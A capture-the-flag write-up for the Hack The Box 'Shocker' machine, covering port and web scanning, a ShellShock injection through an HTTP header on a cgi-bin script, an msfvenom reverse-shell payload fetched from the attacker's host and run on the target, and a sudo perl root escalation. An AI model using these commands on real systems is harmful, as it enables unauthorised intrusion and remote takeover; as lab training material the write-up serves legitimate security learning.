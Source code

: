 # [Shocker](https://app.hackthebox.eu/machines/108)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.56 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.56 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.56
# UDP quick scan
sudo nmap -v -sU -p1-65535 --open -Pn -sV --version-intensity 0 10.10.10.56
```

The TCP quick scan returns the following:

![nmap1](./shocker/nmap1.png)

Start the following web scanner:

```bash
nikto -h http://10.10.10.56/ -C all --maxtime=120s --output=nikto.txt
```

![nikto1](./shocker/nikto1.png)

Browse to the site manually:

```bash
firefox http://10.10.10.56/
```

![web1](./shocker/web1.png)

Site looks custom. Start a directroy scanner looking for `php` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.misc.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/ &
```

Looking at the HTML source does not show anything interesting:

![web2](./shocker/web2.png)

The web directory scanner does not show anything interesting... The Apache version of 2.4.18 does not have any helpful exploits either... The full `nmap` scan returns another open port:

![nmap2](./shocker/nmap2.png)

SSH is not helpful unless a username is known for a possible bruteforce... Maybe the target hostname of `shocker` is a hint at the ShellShock vulnerability?

- https://www.exploit-db.com/docs/48112

> GNU Bash versions 1.14 through 4.3 contain a flaw that processes  commands placed after function definitions in the added environment  variable, allowing remote attackers to execute arbitrary code via a  crafted environment which enables network-based exploitation. Critical instances where the vulnerability may be exposed include: 
>
> - Apache HTTP Server using mod_cgi or mod_cgid scripts either written in bash,  or spawn GNU Bash subshells, or on any system where the /bin/sh interface is implemented using GNU Bash.
> - Override or Bypass  ForceCommand feature in OpenSSH sshd and limited protection for some Git and Subversion deployments used to restrict shells and allows arbitrary command execution capabilities. This data path is vulnerable on systems where the /bin/sh interface is implemented using GNU Bash.
> - Allow arbitrary commands to run on a DHCP client machine

Try looking for any script files in `cgi-bin`:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.cgi.txt -x php,cgi,sh,py,rb,pl \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/cgi-bin/ &
```

And this returns an interesting value:

```
/user.sh (Status: 200)
```

Try connecting:

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![curl1](./shocker/curl1.png)

Looks like some script is running. Try injecting a random command using ShellShock with an HTTP header:

```bash
# listen to catch the ping
sudo tcpdump -i tun0 icmp
# see if the target will execute the ping
curl -v http://10.10.10.56/cgi-bin/user.sh -H 'bubba: () { :;}; /bin/ping -c 1 10.10.14.25'
```

And this does return a ping from the target! Use this to get a shell on the target:

```bash
# generate and host payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# upload payload to target
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /usr/bin/wget -O /tmp/bubba.elf http://10.10.14.25/bubba.elf"
# make payload executable
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /bin/chmod +x /tmp/bubba.elf"
# execute payload
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /tmp/bubba.elf &"  
```

And this gets a shell with `user.txt`:

![user1](./shocker/user1.png)

After connecting, the user `shelly` has an interesting Sudo permission:

![user2](./shocker/user2.png)

This can be used to get a shell as `root` easily:

- https://gtfobins.github.io/gtfobins/perl/

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![root1](./shocker/root1.png)

